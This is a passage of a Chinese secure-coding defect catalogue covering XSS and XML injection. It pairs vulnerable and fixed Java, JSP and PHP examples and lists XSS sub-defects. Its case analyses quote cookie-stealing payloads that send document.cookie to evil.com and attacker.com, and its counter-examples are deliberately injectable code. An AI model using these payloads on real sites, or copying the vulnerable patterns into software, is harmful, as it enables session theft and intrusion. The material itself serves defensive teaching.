  4. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
  5. 在动态构建网页时，使用严格的allowlists（`白名单`），根据请求中参数的期望值来限制字符集。所有的输入都应该被验证和清理，不仅仅是用户应该指定的参数，还有请求中的所有数据，包括隐藏字段、Cookie、标头、URL本身等等。导致持续存在XSS漏洞的一个常见错误是仅验证预计站点将重新显示的字段。经常会看到应用程序服务器或应用程序所反映的请求中的数据，而这些数据是开发团队没有预料到的。此外，当前未反映的字段可能会被未来的开发人员使用。因此，建议验证HTTP请求的所有部分。
  - 请注意，适当的输出编码、转义和引用是防止XSS的最有效解决方案，尽管输入验证可能提供一些深度防御。这是因为它有效地限制了将在输出中出现的内容。输入验证并不总是能防止XSS，特别是当您需要支持可能包含任意字符的自由格式文本字段时。例如，在聊天应用程序中，心脏表情（`<3`<3）很可能会通过验证步骤，因为它是常用的。但是，它不能直接插入到网页中，因为它包含`<`字符，需要对其进行转义或其他处理。在这种情况下，剥离“<”可能会降低XSS的风险，但会产生不正确的行为，因为不会记录表情。这似乎是一个小不便，但在一个想要表示不等式的数学论坛中，这将是更重要的。
  - 即使在验证中出错（例如忘记了100个输入字段中的一个），适当的编码仍然有可能保护您免受基于注入的攻击。只要不是孤立地进行，输入验证仍然是一种有用的技术，因为它可以显著减少您的攻击面，允许您检测一些攻击，并提供适当编码无法解决的其他安全优势。
  - 确保在应用程序中定义良好的接口上执行输入验证。这将有助于保护应用程序，即使组件被重用或移动到其他地方。
- 策略3：输出编码
  1. 使用并指定可由读取输出的下游组件处理的输出编码。常见的编码包括ISO-8859-1、UTF-8。当未指定编码时，下游组件可能会选择不同的编码，要么通过假设默认编码，要么自动推断使用的是哪种编码，这可能是错误的。当编码不一致时，下游组件可能会将某些字符或字节序列视为特殊，即使它们在原始编码中并不特殊。然后，攻击者可能能够利用这种差异进行注入攻击；他们甚至可能能够绕过保护机制，假设原始编码也被下游组件使用。
  2. 在网页中经常出现输出编码不一致的问题。如果HTTP标头中没有指定编码，Web浏览器通常会猜测使用的是哪一种编码。这可能会使浏览器更容易受到XSS攻击。
- 策略4：减少攻击面
  有效性：纵深防御
  为了帮助减少针对用户会话cookie的XSS攻击，请将会话cookie设置为 `HttpOnly`。在支持HttpOnly功能的浏览器（例如较新版本的Internet Explorer 和 Firefox）中，此属性可以防止用户的会话Cookie被使用`document.cookie`的恶意客户端脚本访问。
  - 注：这不是一个完整的解决方案，因为`HttpOnly`并不是所有浏览器都支持的。更重要的是，`XMLHTTPRequest`和其他强大的浏览器技术提供了对HTTP头的读取访问，其中包括设置了`HttpOnly`标志的`Set-Cookie`头。

**开发者测试**
- 策略1：手动测试
  使用常见的XSS测试payload（如`<script>alert(1)</script>`）测试所有输入点，确保系统能正确处理。
- 策略2：场景测试
  测试不同请求类型（GET、POST）和输入点，确保全面覆盖。

**代码Review**
- 策略1：代码走读
  团队成员检查代码，特别是处理输入和输出的部分，确保每处都经过验证和转义。
- 策略2：输入验证检查
  确保所有外部输入都经过严格的验证和转义，防止恶意输入。
- 策略3：安全框架使用检查
  确保安全框架正确使用，没有误用导致漏洞。
  - 例如：使用`Struts`，从表单bean中写入所有数据，并将bean的`filter 属性设置为 true`。
  - 例如：利用如`htmlspecialchars`函数等安全API处理输出，避免手动编码可能带来的错误。
- 策略4：第三方库审查
  检查使用的第三方库，确保它们没有已知的XSS漏洞。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 对外部数据进行输入过滤和输出转义防止XSS注入**
**语言: **JAVA

**描述**
一个简单的留言板系统，用户可以在留言板上输入自己的名字和留言内容。然而，该系统存在一个 XSS（跨站脚本）注入漏洞，攻击者可以利用该漏洞在页面中注入恶意脚本，窃取其他用户的敏感信息或执行其他恶意操作。

**案例分析**
1. 输入未过滤：代码中直接从 `request.getParameter` 中获取 `username` 和 `message`，并且没有对输入进行任何过滤或转义。攻击者可以利用这一点，通过输入包含恶意脚本的用户名或留言内容，将脚本注入到页面中。
2. 输出未转义：在显示留言时，直接将数据库中的 `username` 和 `message` 输出到页面，而没有对特殊字符进行转义。攻击者注入的脚本会被浏览器解析并执行。
3. 潜在攻击场景：攻击者可以在 `username` 或 `message` 中输入类似以下内容：
```html
<script>alert('XSS');</script>
```
或者更复杂的脚本，例如窃取 Cookie：
```html
<script>document.location.href='https://evil.com?cookie=' + document.cookie;</script>
```
4. 漏洞影响：攻击者可以利用 XSS 漏洞窃取其他用户的 Cookie 信息、重定向用户到恶意网站，甚至控制用户的会话。

**反例**
```java
import java.io.IOException;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class MessageBoardServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 危险：直接从 request.getParameter 中获取
        String username = request.getParameter("username");
        String message = request.getParameter("message");

        // 将留言保存到数据库
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "INSERT INTO messages (username, message) VALUES (?, ?)";
            PreparedStatement pstmt = conn.prepareStatement(sql);
            pstmt.setString(1, username);
            pstmt.setString(2, message);
            pstmt.executeUpdate();
            conn.close();
        } catch (SQLException e) {
            // ...处理异常
        }

        // 显示所有留言
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "SELECT * FROM messages";
            ResultSet rs = conn.createStatement().executeQuery(sql);
            response.setContentType("text/html");
            response.getWriter().println("<html><body>");
            while (rs.next()) {
                response.getWriter().println("<div class='message'>");
                response.getWriter().println("<strong>用户名:</strong> " + rs.getString("username") + "<br>");
                response.getWriter().println("<strong>留言:</strong> " + rs.getString("message") + "<br>");
                response.getWriter().println("</div>");
            }
            response.getWriter().println("</body></html>");
            conn.close();
        } catch (SQLException | IOException e) {
            // ...处理异常
        }
    }
}
```

**正例**
```java
import java.io.IOException;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.lang.StringEscapeUtils;

public class SecureMessageBoardServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // 输入过滤：使用 StringEscapeUtils.escapeHtml4 对输入内容进行转义
        String username = StringEscapeUtils.escapeHtml4(request.getParameter("username"));
        String message = StringEscapeUtils.escapeHtml4(request.getParameter("message"));

        // 将留言保存到数据库
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "INSERT INTO messages (username, message) VALUES (?, ?)";
            PreparedStatement pstmt = conn.prepareStatement(sql);
            pstmt.setString(1, username);
            pstmt.setString(2, message);
            pstmt.executeUpdate();
            conn.close();
        } catch (SQLException e) {
            // ...处理异常
        }

        // 显示所有留言
        try {
            Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/messageboard", "root", "password");
            String sql = "SELECT * FROM messages";
            ResultSet rs = conn.createStatement().executeQuery(sql);
            response.setContentType("text/html");
            response.getWriter().println("<html><body>");
            while (rs.next()) {
                response.getWriter().println("<div class='message'>");
                // 输出转义：再次使用 StringEscapeUtils.escapeHtml4 对内容进行转义
                response.getWriter().println("<strong>用户名:</strong> " + StringEscapeUtils.escapeHtml4(rs.getString("username")) + "<br>");
                response.getWriter().println("<strong>留言:</strong> " + StringEscapeUtils.escapeHtml4(rs.getString("message")) + "<br>");
                response.getWriter().println("</div>");
            }
            response.getWriter().println("</body></html>");
            conn.close();
        } catch (SQLException | IOException e) {
            // ...处理异常
        }
    }
}
```

**修复建议**
- 输入过滤：在接收用户输入时，使用 `StringEscapeUtils.escapeHtml4` 对输入内容进行转义，将特殊字符（如 `<`, `>`, `&` 等）转换为对应的 HTML 实体，防止脚本被执行。
- 输出转义：在将数据从数据库中读取并输出到页面时，再次使用 `StringEscapeUtils.escapeHtml4` 对内容进行转义，确保任何潜在的恶意脚本都不会被浏览器解析。

**案例2: 直接将用户的评论内容输出至Web页面导致XSS**
**语言: **JAVA

**描述**
有一个Java Web应用程序，用户可以在该程序上发布评论。该程序直接将用户输入的内容显示在页面上，而没有进行任何输入验证或输出转义。攻击者可以利用这一点，通过在评论中插入恶意脚本，导致其他用户受到XSS攻击。

**案例分析**
在这个案例中，用户输入的内容直接被输出到页面上，而没有进行任何转义或过滤。攻击者可以利用这一点，通过在评论中插入恶意脚本，例如：
```xml
<script>alert('XSS');</script>
```
当其他用户查看包含此评论的页面时，恶意脚本会被执行，弹出一个警告框。更严重的攻击可能会窃取用户的 cookies 或其他敏感信息。

**反例**
```java
import java.io.IOException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class CommentServlet extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String userComment = request.getParameter("comment");
        response.setContentType("text/html");
        response.getWriter().println("<html>");
        response.getWriter().println("<body>");
        response.getWriter().println("<h1>用户评论:</h1>");
        response.getWriter().println("<p>" + userComment + "</p>"); // 风险代码
        response.getWriter().println("</body>");
        response.getWriter().println("</html>");
    }
}
```

**正例**
```java
import java.io.IOException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.lang3.StringEscapeUtils;

public class CommentServlet extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String userComment = request.getParameter("comment");
        // 对用户输入的内容进行HTML转义
        String safeComment = StringEscapeUtils.escapeHtml4(userComment);
        response.setContentType("text/html");
        response.getWriter().println("<html>");
        response.getWriter().println("<body>");
        response.getWriter().println("<h1>用户评论:</h1>");
        response.getWriter().println("<p>" + safeComment + "</p>"); // 安全代码
        response.getWriter().println("</body>");
        response.getWriter().println("</html>");
    }
}
```

**修复建议**
- 使用合适的转义函数：根据输出的上下文选择合适的转义函数。例如：
`StringEscapeUtils.escapeHtml4()` 用于 HTML 上下文。
`StringEscapeUtils.escapeJavaScript()` 用于 JavaScript 上下文。
`StringEscapeUtils.escapeCss()` 用于 CSS 上下文。
`StringEscapeUtils.escapeUrl()` 用于 URL 上下文。
- 使用安全的框架和库：许多现代 Web 框架（如 Spring、Hibernate 等）内置了 XSS 防护机制，使用这些框架可以减少手动处理 XSS 的风险。
- 输入验证：对用户输入进行验证，确保输入的内容符合预期的格式和范围。例如，限制评论的长度，禁止某些特定的字符或模式。
- 使用安全的编码实践：避免直接拼接 HTML 字符串，使用模板引擎（如 Thymeleaf、Freemarker 等）来生成页面内容，这些引擎通常会自动处理转义问题。

**案例3: 直接将用户的评论内容输出至Web页面导致XSS**
**语言: **JSP

**描述**
一个基于Java的Web应用程序中，开发人员直接在JSP页面上输出用户输入的评论内容，而没有进行任何过滤或编码处理。攻击者可以通过提交包含恶意JavaScript代码的评论，当其他用户查看该评论时，代码会在浏览器中执行，导致跨站脚本攻击(XSS)。

**案例分析**
代码直接使用EL表达式`${userComment}`输出用户输入的内容，没有进行任何编码或过滤处理。攻击者可以利用此漏洞进行：窃取用户会话cookie，重定向用户到恶意网站，修改页面内容，执行任意 JavaScript代码。
攻击方式：攻击者可以提交如下评论内容：
```html
<script>alert('XSS攻击');</script>
```
或者更恶意的脚本：
```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**反例**
```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html>
<head>
    <title>用户评论页面</title>
</head>
<body>
    <h1>用户评论</h1>
    <div>
        <%-- 直接输出用户输入的评论内容 --%>
        ${userComment}
    </div>
</body>
</html>
```


- 对应的Controller代码：
```java
@Controller
public class CommentController {
    
    @PostMapping("/submitComment")
    public String submitComment(@RequestParam String comment, Model model) {
        // 直接将用户输入存入模型，没有进行任何处理
        model.addAttribute("userComment", comment);
        return "commentView";
    }
}
```

**正例**
```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>
<%@ taglib uri="http://java.sun.com/jsp/jstl/functions" prefix="fn" %>
<!DOCTYPE html>
<html>
<head>
    <title>用户评论页面</title>
</head>
<body>
    <h1>用户评论</h1>
    <div>
        <%-- 使用JSTL的fn:escapeXml进行输出编码 --%>
        ${fn:escapeXml(userComment)}
    </div>
</body>
</html>
```


- 或者使用Spring的标签：
```jsp
<%@ taglib prefix="spring" uri="http://www.springframework.org/tags" %>
...
<div>
    <spring:escapeBody htmlEscape="true">${userComment}</spring:escapeBody>
</div>
```

**修复建议**
- 输出编码：在将用户输入显示到页面之前，对特殊字符进行HTML编码转换。
- 使用安全库：使用JSTL的`fn:escapeXml`函数或Spring的`<spring:escapeBody>`标签自动处理编码。
- 内容安全策略(CSP)：添加HTTP头`Content-Security-Policy`来限制脚本执行。

**案例4: 对外部数据进行输入过滤和输出转义防止XSS注入**
**语言: **PHP

**描述**
一个简单的留言板系统，用户可以在留言板上输入自己的名字和留言内容。然而，该系统存在一个 XSS（跨站脚本）注入漏洞，攻击者可以利用该漏洞在页面中注入恶意脚本，窃取其他用户的敏感信息或执行其他恶意操作。

**案例分析**
1. 输入未过滤：代码中直接从 `$_POST` 中获取 `username` 和 `message`，并且没有对输入进行任何过滤或转义。攻击者可以利用这一点，通过输入包含恶意脚本的用户名或留言内容，将脚本注入到页面中。
2. 输出未转义：在显示留言时，直接将数据库中的 `username` 和 `message` 输出到页面，而没有对特殊字符进行转义。攻击者注入的脚本会被浏览器解析并执行。
3. 潜在攻击场景：攻击者可以在 `username` 或 `message` 中输入类似以下内容：
```html
<script>alert('XSS');</script>
```
或者更复杂的脚本，例如窃取 Cookie：
```html
<script>document.location.href='https://evil.com?cookie=' + document.cookie;</script>
```
4. 漏洞影响：攻击者可以利用 XSS 漏洞窃取其他用户的 Cookie 信息、重定向用户到恶意网站，甚至控制用户的会话。

**反例**
```php
<?php
//留言板处理代码
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // 危险：直接从 $_POST 中获取
    $username = $_POST['username'];
    $message = $_POST['message'];
    
    // 将留言保存到数据库
    $sql = "INSERT INTO messages (username, message) VALUES ('$username', '$message')";
    mysqli_query($conn, $sql);
}

// 显示所有留言
$sql = "SELECT * FROM messages";
$result = mysqli_query($conn, $sql);
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div class='message'>";
    echo "<strong>用户名:</strong> " . $row['username'] . "<br>";
    echo "<strong>留言:</strong> " . $row['message'] . "<br>";
    echo "</div>";
}
?>
```

**正例**
```php
<?php
//留言板处理代码
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // 输入过滤：使用 htmlspecialchars 对输入内容进行转义
    $username = htmlspecialchars($_POST['username'], ENT_QUOTES, 'UTF-8');
    $message = htmlspecialchars($_POST['message'], ENT_QUOTES, 'UTF-8');
    
    // 将留言保存到数据库
    $sql = "INSERT INTO messages (username, message) VALUES (?, ?)";
    $stmt = mysqli_prepare($conn, $sql);
    mysqli_stmt_bind_param($stmt, "ss", $username, $message);
    mysqli_stmt_execute($stmt);
}

// 显示所有留言
$sql = "SELECT * FROM messages";
$result = mysqli_query($conn, $sql);
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div class='message'>";
    // 输出转义：再次使用 htmlspecialchars 对内容进行转义
    echo "<strong>用户名:</strong> " . htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8') . "<br>";
    echo "<strong>留言:</strong> " . htmlspecialchars($row['message'], ENT_QUOTES, 'UTF-8') . "<br>";
    echo "</div>";
}
?>
```

**修复建议**
- 输入过滤：在接收用户输入时，使用 `htmlspecialchars` 对输入内容进行转义，将特殊字符（如 `<`, `>`, `&` 等）转换为对应的 HTML 实体，防止脚本被执行。
- 输出转义：在将数据从数据库中读取并输出到页面时，再次使用 `htmlspecialchars` 对内容进行转义，确保任何潜在的恶意脚本都不会被浏览器解析。

#### CWD-1073-000 XSS注入

#### CWD-1073-001 【Web页面中与Script相关的HTML标签中和不当】直接存储外部可疑数据

#### CWD-1073-002 【Web页面中与Script相关的HTML标签中和不当】Android WebView中启用了JavaScript

#### CWD-1073-003 错误消息Web页面中与Script相关的特殊符号中和不当

#### CWD-1073-004 【Web页面属性中的Script中和不当】IMG标签属性

#### CWD-1073-005 Web页面中对URI编码欺骗中和不当

#### CWD-1073-006 Web页面与Script相关的重复字符中和不当

#### CWD-1073-007 Web页面标识符中的无效字符中和不当

#### CWD-1073-008 Script语法替换XSS中和不当

#### CWD-1073-009 【DOM型】JavaScript的eval函数执行不可信表达式，造成XSS

#### CWD-1073-010 【JavaScript可执行函数,运行受污染的数据，容易导致XSS漏洞】新建函数Function(str),参数str外部可控，且没有校验转码，则易造成XSS漏洞

#### CWD-1073-011 【JavaScript可执行函数,运行受污染的数据，容易导致XSS漏洞】延时函数setTimeout(str,time)使用受污染的数据作为str参数，且没有校验转码，则易造成XSS漏洞

#### CWD-1073-012 【JavaScript可执行函数,运行受污染的数据，容易导致XSS漏洞】周期函数setInterval()执行外部可控函数或表达式，且没有进行转码，易造成XSS漏洞

#### CWD-1073-013 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】HTML5增加了许多新标签和新属性，外部可控数据渲染新标签或属性，易导致XSS漏洞。标签如：Canvas、video等，属性如：poster、autofocus、onerror、formaction、oninput等

#### CWD-1073-014 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】window对象可以操作JavaScript全局函数及变量。如果window[key](val)调用中，key和val外部可控，则可执行任意js代码，造成XSS漏洞

#### CWD-1073-015 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】通过location和document对象操作不可信url/uri时，容易造成XSS漏洞。如：location.href=、document.location=，window.open (URL,...)，document操作敏感属性：action,src,href等

#### CWD-1073-016 【利用dom对象、window对象等，使用外部可控数据渲染Html页面元素或属性，易造成XSS漏洞】原生Dom对象，使用外部可控数据渲染Html页面，易导致XSS漏洞，如：document.write()，document.writeln()，.innerHTML=，.outerHTML=，append(),appendChild(),insertBefore()等

#### CWD-1073-017 HttpServletResponse类对象通过getWriter()、getOutputStream()方式响应受污染数据到页面，导致XSS漏洞

#### CWD-1073-018 【动态网页开发技术(Jsp)渲染页面时，数据外部可控且未经过校验编码，容易导致XSS漏洞】JSP标准标签库(jstl)c:out输出外部可控数据，且escapeXml=false时容易导致XSS漏洞

#### CWD-1073-019 【动态网页开发技术(Jsp)渲染页面时，数据外部可控且未经过校验编码，容易导致XSS漏洞】Jsp中< %代码片段% >表达式在页面上渲染外部可控数据，容易导致XSS漏洞

#### CWD-1073-020 【动态网页开发技术(Jsp)渲染页面时，数据外部可控且未经过校验编码，容易导致XSS漏洞】通过EL表达式${}渲染外部可控变量，容易导致XSS漏洞

#### CWD-1073-021 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】doT模板引擎:使用{{=it.name}}表达式渲染外部可控数据，易造成XSS漏洞

#### CWD-1073-022 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】ejs模板引擎:<%- data %>表达式渲染外部可控数据，易造成XSS漏洞

#### CWD-1073-023 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Jade/Pug模板引擎:!{}和!=未对外部可控数据等进行编码转义,直接渲染页面,易造成XSS漏洞

#### CWD-1073-024 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Mustache模板引擎:使用{{{msg}}}或{{&msg}}表达式在页面上渲染受污染数据,易造成XSS漏洞

#### CWD-1073-025 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Nunjucks模板引擎:未开启autoescape模式,使用外部可控数据渲染页面，易造成XSS漏洞

#### CWD-1073-026 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Spring中使用Freemarker模板引擎渲染带有${var}占位的ftl模板时，使用外部不可信数据渲染，易造成XSS漏洞

#### CWD-1073-027 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Thymeleaf模板引擎:th:utext默认不会对参数做转义，在页面上渲染外部可控数据，容易造成XSS漏洞

#### CWD-1073-028 【模板&表达式框架在页面上渲染受污染数据，易造成XSS漏洞】Thymeleaf模板引擎:Thymeleaf结合Angular可能存在绕过angular沙箱验证和th:text的转义造成XSS漏洞

#### CWD-1073-029 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】AngularJS框架：结合后端模板引擎使用，受污染数据(沙箱逃逸有效负载)被{{expression}}表达式解析，渲染页面，易造成XSS漏洞

#### CWD-1073-030 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】AngularJS框架：使用ng-bind-html绑定外部可控参数到Dom属性上，易造成XSS漏洞

#### CWD-1073-031 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】AngularJS框架：危险函数执行外部可控参数，易造成XSS漏洞。如：$watch、$watchGroup、$watchCollection、$eval、$evalASync、$apply、$applyASync、$parse、$interpolate等函数

#### CWD-1073-032 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】echarts：tooltip中formatter返回外部可控数据，进行页面渲染，易导致XSS漏洞

#### CWD-1073-033 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】jQuery框架:jQuery的Dom操作方法利用外部可控数据直接渲染页面，易导致XSS漏洞。如.html(),.append(),appendTo(),before(),insertAfter(), insertBefore(),prepend(),prependTo(),after(),.attr()等

#### CWD-1073-034 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】React框架：createElement()函数利用外部可控数据创建节点，再进行页面渲染，易导致XSS漏洞

#### CWD-1073-035 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】React框架：JavaScript代码中,Html节点使用外部可控数据创建节点，再进行页面渲染，易导致XSS漏洞

#### CWD-1073-036 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】React框架：使用dangerouslySetInnerHTML属性方法在页面上渲染外部可控数据，易导致XSS漏洞

#### CWD-1073-037 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】vue框架:使用v-bind()方法，在页面上渲染外部可控数据，易导致XSS漏洞

#### CWD-1073-038 【使用前端框架渲染Html元素时，数据外部可控，易造成XSS漏洞】vue框架:使用v-html()方法，在页面上渲染外部可控数据,易导致XSS漏洞

#### CWD-1073-039 nginx.conf配置文件中add_header配置项的X-XSS-Protection的配置值不合理

#### CWD-1073-040 Tomcat通过FilterRegistrationBean关闭了X-XSS-Protection头加固

#### CWD-1073-041 Tomcat通过web.xml配置过滤器时关闭了X-XSS-Protection头加固

#### CWD-1073-042 Huawei WSF安全框架通过hwsf-security.xml配置文件将X-XSS-Protection节点配置为disable来关闭默认安全头

#### CWD-1073-043 Huawei WSF安全框架通过FilterRegistrationBean设置X-XSS-Protection的值不正确

#### CWD-1073-044 Huawei WSF安全框架通过web.xml配置过滤器时设置X-XSS-Protection的值不正确

#### CWD-1073-045 servlet框架通过setHeader/addHeader配置X-XSS-Protection值不合理

#### CWD-1073-046 Spring Security框架通过HttpSecurity类调用xssProtection().xssProtectionEnabled(false)函数关闭X-XSS-Protection的安全配置

#### CWD-1073-047 USecurity安全框架通过FilterRegistrationBean设置X-XSS-Protection的值不正确

#### CWD-1073-048 USecurity安全框架通过web.xml配置过滤器时设置X-XSS-Protection的值不正确

#### CWD-1073-049 通过setHeader/addHeader方式单独为请求设置控制响应头X-Content-Type-Options

#### CWD-1073-050 通过setHeader/addHeader方式单独为请求设置控制响应头X-XSS-Protection

#### CWD-1073-051 Tomcat通过FilterRegistrationBean关闭了内容猜解头content-type-options加固

#### CWD-1073-052 Tomcat通过web.xml将blockContentTypeSniffingEnabled参数设置为false，关闭了内容猜解头content-type-options加固

#### CWD-1073-053 Huawei WSF安全框架通过hwsf-security.xml配置文件中content-type-options节点配置为disable关闭了内容猜测头的加固

#### CWD-1073-054 SpringSecurity安全框架通过HttpSecurity类调用disable函数关闭X-Content-Type-Options的安全配置

**业界缺陷**

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
---

# CWD-1081 XML注入

**别名: **XML注入（又名盲XPath注入）

**描述**
XML注入：XML Injection（又名盲XPath注入）无法正确中和XML中使用的特殊元素，使得攻击者能够在终端系统处理XML之前修改其语法、内容或命令。攻击者利用精心编制的XML用户可控输入来探测、攻击并将数据注入XML数据库，使用类似SQL注入的技术。用户可控的输入可能允许未经授权的查看数据，绕过身份验证或直接访问XML数据库的前端应用程序，并可能更改数据库信息。影响产品的机密性、完整性和可用性。


- 注：在XML中，特殊元素可以包括保留字或字符，如 `<` 、`>` 、` ` 和 `&`，然后可以使用这些保留字或字符添加新数据或修改XML语法。
**语言: **JAVA,GO,JAVASCRIPT,TYPESCRIPT

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：输入验证设计
  在系统设计阶段明确 XML 数据的输入验证规则，禁止用户输入中的特殊字符（如 `<`, `>`, `&`, `'`, `"`）或 XML 元字符。
- 策略2：安全编码规范
  设计阶段制定 XML 处理的编码规范，强制使用参数化构造（如 DOM 文档对象模型）而非字符串拼接。
- 策略3：最小化数据暴露
  设计 XML 结构时仅暴露必要字段，避免敏感信息通过 XML 节点泄露。
- 策略4：使用自定义错误页面
  由于攻击者可以从描述性错误消息中收集有关查询性质的信息。所以输入验证必须与自定义的错误页相结合，这些错误页仅通知错误，而不透露有关数据库或应用程序的信息。

**编码**
- 策略1：XML编码
  使用专门的库（如`Apache Commons Text`的`StringEscapeUtils.escapeXml11()`，`Java` 的 `OWASP ESAPI` ，`Python` 的 `xml.sax.saxutils.escape`）对用户输入进行XML编码，将特殊字符转换为对应的实体引用：`<` 转换为 `&lt;`；`>` 转换为 `&gt;`；`&` 转换为 `&amp;`；`"` 转换为 `&quot;`；`'` 转换为 `&apos;`。
- 策略2：禁用外部实体（XXE 防护）
  配置 XML 解析器禁用外部实体引用（如 Java 的 `DocumentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`）。
- 策略3：输入验证
  - 在处理之前，将所有URI解析为绝对或规范表示。
    ```java
    // Java示例
    String canonicalPath = new File(userInput).getCanonicalPath();
    ```
    - C语言中 `realpath()`
    - Java中 `getCanonicalPath()`
    - ASP.NET中 `GetFullPath()`
    - Perl中 `realpath()`或`abs_path()`
    - PHP中 `realpath()`
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists（`黑名单`）对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。

**开发者测试**
- 策略1：单元测试注入用例
  编写测试用例模拟 XML 注入攻击（如输入 `</tag><malicious>payload</malicious><tag>`），验证系统是否正确处理。
- 策略2：边界测试
  测试超长字符串、特殊字符组合等边界情况。

**代码Review**
- 策略1：检查 XML 解析逻辑
  重点审查 XML 拼接代码（如 `String xml = "<user>" + input + "</user>"`），确保使用安全的构造方式。
- 策略2：验证外部实体配置
  确认代码中已禁用 DTD/外部实体（如检查 `setFeature` 相关调用）。
- 策略3：输入流审查
  追踪用户输入是否在所有 XML 处理路径中均被转义或验证。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
